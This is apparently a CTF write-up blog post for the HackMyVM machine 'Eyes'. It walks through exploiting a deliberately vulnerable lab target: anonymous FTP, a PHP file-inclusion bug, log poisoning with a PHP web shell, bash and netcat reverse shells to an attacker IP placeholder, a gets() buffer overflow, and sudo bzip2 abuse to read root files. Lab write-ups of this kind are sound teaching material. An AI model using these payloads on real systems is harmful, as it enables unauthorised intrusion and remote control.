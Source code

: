```yaml
---
layout: post
author: kohaku
title:  "Eyes"
date:   2022-01-01 10:39:32 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Eyes)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Thu Dec 30 20:14:26 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.217
Nmap scan report for 192.168.0.217
Host is up (0.016s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             125 Apr 04  2021 index.php
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.216
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b1:12:94:12:60:67:e1:0b:45:c1:8d:e9:21:13:bc:51 (RSA)
|   256 b7:7f:25:94:d6:4e:88:56:8a:22:34:16:c2:de:ba:02 (ECDSA)
|_  256 30:c7:a2:90:39:5d:24:13:bf:aa:ba:4c:a7:f4:2f:bb (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 20:14:35 2021 -- 1 IP address (1 host up) scanned in 8.99 seconds
{% endhighlight  %}

# FTP

Connect to FTP using the default creds `anonymous` and blank password

Get index.php, we can see it’s a LFI. 

{% highlight php  %}
<?php
$file = $_GET['fil3'];
if(isset($file)) {
	include($file);
} else {
	print("Here my eyes...");
}
?>
<!--Monica's eyes-->
{% endhighlight  %}

# Log Poisoning

Testing the LFI, we have access to vsftpd logs `/index.php?fil3=/var/log/vsftpd.log`

We can poison this log with a malicious payload and get RCE 

## LFI → RCE

Go back to FTP

![Untitled](/images/eyes/ftp.png)

{% highlight php  %}
<?php $cmd=$_GET['cmd'];system($cmd); ?>
{% endhighlight  %}

Go back to webserver and use the `cmd` parameter to do a reverse shell

## Reverse shell

{% highlight bash  %}
http://$IP/index.php?fil3=/var/log/vsftpd.log&cmd=bash -c 'bash -i >& /dev/tcp/$KaliIP/$PORT 0>&1'
{% endhighlight  %}

`Note:` If you having trouble with reverse shell, send this payload above to burp and encode with URL-Encode

# User

On `/opt` directory have a C script

{% highlight c  %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <sys/types.h>

int main(void) {
 char command[100];
 char ls[50]="/usr/bin/ls";
 char name[50];
 printf("Enter your name:");
 gets(name);
 strcpy(command,ls);
 setuid(1000);
 setgid(1000);
 printf("Hi %s, Im executing ls\n Output:\n",name);
 system(command);
}
{% endhighlight  %}

This code it’s vulnerable to Buffer Overflow. Buffer the `name` variable, we can overwrite the `ls`variable and inject whatever command we want.

{% highlight bash  %}
python3 -c 'print("a"*64 + "/usr/bin/nc $KaliIP 1000 -e /bin/bash")' | ./ls
{% endhighlight  %}

Sending 64 characters to `name` we can start to overwrite `ls` variable and send nc command to our machine 

# Root

{% highlight bash  %}
sudo -l

User monica may run the following commands on eyes:
    (ALL) NOPASSWD: /usr/bin/bzip2
{% endhighlight  %}

{% highlight bash  %}
sudo bzip2 -c /root/root.txt | bzip2 -d
{% endhighlight  %}